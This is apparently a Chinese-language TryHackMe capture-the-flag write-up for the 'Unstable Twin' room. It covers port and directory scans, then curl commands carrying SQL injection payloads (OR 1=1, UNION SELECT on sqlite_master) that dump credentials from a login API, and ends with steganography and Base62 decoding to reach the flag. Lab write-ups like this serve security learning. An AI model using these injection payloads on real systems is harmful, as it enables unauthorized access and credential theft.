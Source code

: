 ```yaml
---
sidebar_position: 145
tags: [Easy, Linux, SQLI, 文件隐写]
title: "Unstable Twin"
description: "Unstable Twin"
sidebar_label: "Unstable Twin"
slug: /tryhackme/145
---
```


# Unstable Twin

## 端口扫描

```bash
root@ip-10-10-80-215:~# nmap -sTCV -p- --min-rate 1000 10.10.150.71

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-05 06:38 BST
Nmap scan report for ip-10-10-150-71.eu-west-1.compute.internal (10.10.150.71)
Host is up (0.00052s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
|_  256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (EdDSA)
80/tcp open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:49:04:07:5C:FB (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.47 seconds
```

## 80

```bash
root@ip-10-10-80-215:~# gobuster dir -u http://10.10.150.71/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.150.71/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2023/10/05 06:41:02 Starting gobuster
===============================================================
/info (Status: 200)
===============================================================
2023/10/05 07:30:45 Finished
===============================================================
```

当我访问 /info 时页面返回一些内容, 其告诉我们存在一个 api 其对应的功能是登陆, 并且也告诉我们其对应的参数以及服务端没有经过测试比较混乱

![image-20240709181404982](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181406.png)

因为之前并没有枚举出什么内容所以再次枚举, 我们可以发现一个 api 根据登陆盲猜估计是 /api/login

![image-20240709181410659](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181412.png)

---

如果你观察够细致你会发现你没两次请求返回的内容是完全不同的, 请看 Burp 响应, 这说明服务端应该存在某种切换模式一次正常一次异常, 这会带来的影响是我们没有办法基于此来进行 sqlmap 和 目录枚举

![image-20240709181418261](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181419.png)

---

访问我们的 /api/login , 使用 POST 请求, 我们可以从两次请求中看出不同, 因为是登陆请求, 所以我们可以尝试 sqli 

![image-20240709181425456](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181427.png)

```bash
root@ip-10-10-20-92:~/unstabletwin# curl  http://10.10.150.71/api/login -X POST -d "username=admin' or 1=1 -- -&password=12345"  # 使用此我们可以读取数据表的所有内容
root@ip-10-10-20-92:~/unstabletwin# curl  http://10.10.150.71/api/login -X POST -d "username=vincent'UNION SELECT 1,2 -- -&password=12345"  # 使用 UNION 联合注入
root@ip-10-10-20-92:~/unstabletwin# curl  http://10.10.150.71/api/login -X POST -d "username=vincent'UNION SELECT 1,sqlite_version() -- -&password=12345"  # 使用此确定了 sqlite 的数据库
root@ip-10-10-20-92:~/unstabletwin# curl  http://10.10.150.71/api/login -X POST -d "username=vincent'UNION SELECT 1,name FROM sqlite_master WHERE type='table'-- -&password=12345"  # 获取所有数据表名
root@ip-10-10-20-92:~/unstabletwin# curl  http://10.10.150.71/api/login -X POST -d "username=vincent'UNION SELECT 1, group_concat(name, ', ') FROM pragma_table_info('notes') -- -&password=12345" # 使用此来获取指定数据表的数据列名
```

按照上面的操作, 我们最终:

- notes : 得到一个密码, 可以解密得到密码

    ![image-20240709181435234](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181436.png)

- users : 获取到所有的用户

## 后渗透

### mary_ann

使用得到的密码进行尝试最终发现是 mary_ann 用户的密码

![image-20240709181448292](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181449.png)

### maty_ann —> end

这道题没有 root 提权, 在用户家目录中有一个文件, 告诉我们找到其全家的用户, 并提醒我们可以根据名字查找, 我第一次没有找到因为没有忽略大小写, 但是我在 opt 目录遍历时, 还是发现了网站的执行文件, 并且发现多个照片, 我感觉存在文件隐写就全部下载到本地

![image-20240709181501081](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181502.png)

进行逐个尝试最终获取到所有的隐藏内容, (没有密码加密)

![image-20240709181507575](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181509.png)

阅读后其中 linda.txt 告诉我按照彩虹进行编号, 所以查看隐藏文件后我进行了解密从而获取到了 root flag [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base62('0-9A-Za-z')&input=MURWc2RiMnVFRTBrNUhLNEdBSVpQUzBNYnkyam9tVUtManZRNE9Td2pLTE5BQWVDZGwySjhCQ1J1WFZYZVZZdnM2SjZIS3BaV1BHOHBmZUhvTkcx)
